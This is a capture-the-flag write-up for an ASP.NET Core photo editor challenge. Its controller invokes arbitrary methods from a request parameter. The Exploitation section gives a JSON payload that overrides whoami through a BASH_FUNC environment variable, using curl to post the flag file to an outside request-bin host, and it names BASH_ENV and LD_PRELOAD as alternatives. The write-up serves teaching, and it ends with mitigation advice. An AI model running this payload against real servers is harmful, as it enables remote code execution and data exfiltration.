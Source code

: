 ```yaml
---
title: Photoeditor
author: Adrian Junge
description: Recently I learned ASP .NET Core and boy, it's so magic! Dependency injection, dynamic routing, interfaces everywhere. But for me, it wasn't dynamic enough. So I extended the framework and now I got all the dynamic in the world I could wish for. That surely didn't introduce any vulnerabilities, right?",
categories:
    - Web
    - .NET
year: 2024
---
```


# 1. Introduction<a name="introduction"></a>
This challenge was about some interesting dynamic implementation to process user generated input calling appropriate functions in the application:

```
Recently I learned ASP .NET Core and boy, it's so magic!
Dependency injection, dynamic routing, interfaces everywhere.
But: For me, it wasn't dynamic enough.
So I extended the framework and now I got all the dynamic in the world I could wish for.
That surely didn't introduce any vulnerabilities, right?
```


# 2. Reconnaissance<a name="reconnaissance"></a>
Looking around on the webpage you have access to, you can play around uploading some pictures and editing these with special options.

![rickroll](ctf/writeups/cscg/photoeditor/rick.png "rickroll")

Uploading pictures is usually very interesting by giving a nice attack surface. But having a look at the **C#** code you realize the picture is never uploaded as a file to the server. It is just getting cached in the memory and there being modified directly. Looking through the source files one of them looks very interesting. One of the controllers is executing some bash command with arbitrarily set environment variables. This might be useful later, although just being able to execute `whoami` doesn’t seem that interesting at first...


```c#
public String GetUsername(Dictionary<String,String> env) {
    Process process = new Process();
    process.StartInfo.FileName = "bash";
    process.StartInfo.Arguments = "-c 'whoami'";

    foreach (var kv in evn)
    {
        process.StartInfo.EnvironmentVariables[kv.Key] = kv.Value;
    }

    process.StartInfo.UseShellExecute = false;
    process.StartInfo.RedirectStandardOutput = true;
    process.StartInfo.RedirectStandardError = true;
    process.Start();
    string output = process.StandardOutput.ReadToEnd();
    Console.WriteLine(output);
    string err = process.StandardError.ReadToEnd();
    Console.WriteLine(err);
    process.WaitForExit();

    return output + err;
}
```

By having a closer look at the rest of your code the `DynamicPhotoEditorController` seems very interesting. This controller defines the editing process of the image. The chosen editing action is part of the request and is being processed in an interesting way.

```c#
var actionMethod = this.GetType().GetMethod(photoTransferRequestModel.DynamicAction);
```

After some deserialization of the given request parameters the given action method is called with the request parameters.

```c#
var transformedImage = (Image)actionMethod.Invoke(this, editParams);
```

Definitely a way to make your application very dynamic – but also very vulnerable... These lines of code just takes the `DynamicAction` request parameter, maps it to an arbitrary method of the controller, and executes it. For example, rotating the image is done with the following request parameters:

```json
{
    "DynamicAction":"RotateImage",
    "Parameters":"[90]",
    "Types":null
}
```


# 3. Vulnerability Description<a name="vulnerability description"></a>
At first, it seems like there are no interesting functions to call but taking a closer look at the code you realize the `DynamicPhotoEditorController` is inheriting from the `BaseAPIController` which implements the `GetUsername` function. So maybe you can call this one and make the application execute `whoami`? The given `DynamicAction` is not being sanitized and validated by the server. By setting `DynamicAction` to `GetUsername` you get:

```json
{
    "base64Blob":null,
    "error": "Object of type 'System.Int64' cannot be converted to type 'System.Collections.Generic.Dictionary`2[System.String,System.String]'."
}
```

Although it is just throwing an error hinting some issues with converting some types, this seems promising. It seems like it is having problems calling the `GetUsername` function because the parameter got the wrong type. There is an example usage of the `GetUsername` function in the `HealthController`. By setting the `Types` field to `System.Collections.Generic.Dictionary'2[System.String,System.String]` and the `Parameters` field for the environment variables correctly:

```json
{
    "DynamicAction":"GetUsername",
    "Parameters":"[{\"PATH\":\"/usr/bin\"}]",
    "Types":[
        "System.Collections.Generic.Dictionary`2[System.String,System.String]"
    ]
}
```

you unfortunately get another error:

```json
{
    "base64Blob":null,
    "error":"Unable to cast object of type 'System.String' to type 'SixLabors.ImageSharp.Image'."
}
```

But having another look on the code it seems like the `whoami` command must have been executed. This error must be part of the editor controller. Right after calling the action method, the result is converted to `Image`.

```c#
var transformedImage = (Image)actionMethod.Invoke(this, editParams);
```

But what now?


# 4. Exploitation<a name="exploitation"></a>
Only being able to execute some hard-coded commands like `whoami` and being able to set the environment variables can’t be enough for RCE right? But indeed it is enough! After searching for some weird bash environment variables I found something interesting. By setting `BASH_FUNC_whoami%%=() { id; }` you could override the behavior of the `whoami` command executing for example the `id` command. By setting the request parameters like following:

```json
{
    "DynamicAction":"GetUsername",
    "Parameters":"[{\"BASH_FUNC_whoami%%\":\"() { curl -d @flag https://...pipedream.net; }\"}]",
    "Types":[
        "System.Collections.Generic.Dictionary`2[System.String,System.String]"
    ]
}
```

you can extract the flag to your request bin

![pastebin](ctf/writeups/cscg/photoeditor/flag_pastebin.png "pastebin")

There are some other solutions with different bash environment variables like `BASH_ENV` and `LD_PRELOAD`.


# 5. Mitigation<a name="mitigation"></a>
This is clearly a problem of the implementation. At least some input sanitization and validation of the `DynamicAction` parameter should have been added like limiting the allowed character, length etc. But input validation should never be the only security measurement. With some weird edge cases an attacker could still bypass it. Another option would be some kind of static mapping from parameter to function. Moreover executing shell commands via the code is a bad idea. There are most of the time safe built-in functions in **C#** doing the same job. Also setting the environment variables dynamically can lead to security issues as already described. Setting the environment variables should be part of the deployment e.g. in a docker container and not part of the code.


# 6. Flag<a name="flag"></a>
CSCG\{AppSec\_Chall3nge\_disguised\_as\_W3b\_sorry:)\}
